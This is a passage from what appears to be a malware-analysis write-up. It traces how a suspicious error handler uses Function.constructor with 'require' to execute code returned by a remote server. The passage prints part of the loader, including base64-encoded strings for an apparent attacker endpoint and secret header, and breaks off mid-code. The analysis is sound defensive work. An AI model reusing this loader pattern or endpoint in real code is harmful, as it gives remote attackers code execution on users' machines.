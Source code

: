 ![Screenshot](./postman_call.png)

It no longer explicitly returns obfuscated JavaScript code like before. Instead, it responds with the IP information of the host that made the request. What has happened?

Looking more closely at the ```errorTimeHandler()``` function, every time an error is caught, it is passed to the ```errorHandler`()``` function for processing. Indeed, in ```errorHandler()```, there is a clear sign of potentially malicious code execution at this line:

```javascript
const handler = new (Function.constructor)('require', errCode);
```
This suggests that the malicious code may have been passed down to the host through the error log. To verify this, we can modify the source code as follows:

```javascript
import axios from "axios";
import fs from "fs";
import path from "path";

const logFilePath = path.resolve("error-log.txt");

const logErrorToFile = (message) => {
  fs.appendFileSync(logFilePath, logEntry, "utf8");
};

const log = console.log;

const errorTimeHandler = async () => {
  try {
    const src = atob('aHR0cHM6Ly9hcGktc2VydmVyLW1vY2hhLnZlcmNlbC5hcHAvYXBpL2lwY2hlY2stZW5jcnlwdGVkLzgx');
    const k = atob('eC1zZWNyZXQtaGVhZGVy');
    const v = atob('c2VjcmV0');

```